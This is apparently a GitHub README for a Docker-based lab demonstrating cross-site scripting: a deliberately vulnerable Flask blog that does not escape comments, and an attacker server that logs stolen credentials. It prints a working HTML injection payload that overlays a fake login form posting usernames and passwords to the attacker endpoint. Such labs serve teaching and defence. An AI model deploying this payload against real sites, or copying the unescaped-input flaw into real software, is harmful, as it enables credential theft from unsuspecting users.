 # Cross-Site Scripting (XSS) Demonstration Project

## Overview

This project demonstrates the exploitation of a **Cross-Site Scripting (XSS)** vulnerability in a web application using **Flask**. It includes both a vulnerable victim application and an attacker server to simulate an XSS attack, including credential theft through a fake login page.

## Project Structure

``````bash
project-directory/
│
├── attacker_server/
│   ├── attacker_server.py    # Flask app for the attacker server
│   ├── Dockerfile            # Dockerfile for attacker server
│
├── victim_app/
│   ├── app.py                # Flask app for the victim application
│   ├── Dockerfile            # Dockerfile for victim application
│   ├── requirements.txt      # Python dependencies for victim app
│   ├── static/               # Static files (CSS, JS)
│   ├── templates/            # HTML templates
│
├── docker-compose.yml        # Docker Compose file to manage both containers


## Technologies Used
Flask: A lightweight Python web framework for the victim and attacker server applications.
SQLite: A lightweight database used in the victim application.
Docker: Containerizes the victim and attacker applications for easy setup and isolation.
Docker Compose: Used to orchestrate both services.
HTML/CSS: Used for front-end templating and styling.
Setup Instructions
Prerequisites
Docker: Install Docker and Docker Compose on your machine.
Git: Make sure Git is installed to clone the repository.
Steps to Run the Project
Clone the repository:

```bash
git clone https://github.com/naibwedi/Cross-Site-Scripting.git
cd Cross-Site-Scripting
```
Build and run the Docker containers:

```bash
docker-compose up
```
## Access the applications:

Victim Application: Open a browser and go to http://127.0.0.1:5000 to access the vulnerable victim app.
Attacker Server: The attacker server will be running at http://127.0.0.1:5001 where stolen credentials will be logged.
Stop the containers: To stop the running containers, press CTRL+C in the terminal or run:

```bash
docker-compose down
```

## Features
### Victim Application
A basic blog application where users can add posts and comments.
Vulnerability: The application does not escape user input in the blog post and comment sections, making it vulnerable to XSS attacks.

### Attacker Server
A Flask server designed to capture credentials via a fake login form.
Displays and logs stolen credentials from the victim’s browser to simulate credential theft.
Demonstration of XSS Vulnerability
Injecting Malicious Script: An attacker can submit a malicious comment with a script payload that injects a fake login form when viewed by another user.

Example payload:

```html
<div style="background-color: rgba(0, 0, 0, 0.95); position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: 9999; text-align: center; color: white; padding-top: 100px;">
    <h1>Please Log In Again</h1>
    <form method="POST" action="http://127.0.0.1:5001/fake-login">
        <input type="text" name="username" placeholder="Enter username">
        <input type="password" name="password" placeholder="Enter password">
        <button type="submit">Log In</button>
    </form>
</div>
```
Redirect to Attacker Server: This payload displays a fake login form, and when the user submits their credentials, they are sent to the attacker’s server (http://127.0.0.1:5001/fake-login).

Credential Theft: The attacker server captures the submitted credentials and logs them to the terminal.

